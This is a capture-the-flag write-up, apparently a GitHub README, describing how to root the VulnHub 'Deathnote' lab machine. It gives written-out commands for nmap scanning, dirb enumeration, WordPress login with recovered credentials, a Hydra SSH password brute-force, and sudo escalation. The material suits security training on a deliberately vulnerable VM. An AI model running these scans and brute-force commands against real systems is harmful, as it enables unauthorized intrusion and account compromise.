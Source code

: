 # Deathnote-CTF

## Writeup for the Death note CTF 

Downloadlink : 
https://download.vulnhub.com/deathnote/Deathnote.ova

## Objective: Gain root access ## 

1) Locate vulnerable machine IP address by using *netdiscover*  **Ip : 192.168.18.15** (^ip address will be diffrent on your machine) 
2) Scan for open ports using *NMAP.* **nmap -sV -p- -v 192.168.18.15**

 **-nmap results-**

 22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)

 80/tcp open  http    Apache httpd 2.4.38 ((Debian))

3) Unable to access website. Edit the /etc/hosts file with the machine ip and name 192.168.18.15 , deathnote.vuln

4) Explore the website and find the hint link , found the user kira and L and another info that could be potentially be a password "my fav line is iamjustic3"

5) Use *DIRB* tool to explore http port. **: dirb http: //192.168.18.15** 

6) Use the **http: //192.168.18.15/robots.txt to see a clue**

7) Clue given : added hint on /important.jpg

8) Use **curl http://192.168.18.15/important.jpg**

   *"i can only help you by giving something important*

   *login username : user.txt*

   *i don't know the password.*

   *find it by yourself*
 
   *but i think it is in the hint section of site"*

9) From the dirb results find the admin directory **http: //192.168.18.15/wordpress/wp-admin/**

10) Enter **kira** as username and password **iamjustic3**

11) Go to the media libary and copy the link for the notes.txt 

12) wget http: //deathnote.vuln/wordpress/wp-content/uploads/2021/07/notes.txt and cat the file. A list of passwords will be shown. 

13) Use the *HYDRA* tool to brute force the user "l" on **ssh hydra -l l -P notes.txt 192.168.18.15 ssh**

14) Once inside head to the opt directory and then L directory will present with 2 files. A clue stating to use cybercheck which is online decoder and another file that has       hexcode

  **63 47 46 7a 63 33 64 6b 49 44 6f 67 61 32 6c 79 59 57 6c 7a 5a 58 5a 70 62 43 41 3d**

14) Head to cyberchef and decode the code via hex 

   **cGFzc3dkIDoga2lyYWlzZXZpbCA=**

15) Decode the code again via base64

   *passwd : kiraisevil* 

16) Change user to kira with password kiraisevil **su -l kira**

17) Check kira persmissions 

    *User kira may run the following commands on deathnote:*
    
    *(ALL : ALL) ALL*

    *uid=1001(kira) gid=1001(kira) groups=1001(kira),27(sudo)*

18) Gain root access with **sudo su -l** 

19) cat the root.txt file for the finale 

![alt text](https://github.com/Persecure/Deathnote-CTF/blob/main/flag.PNG?raw=true)

End 

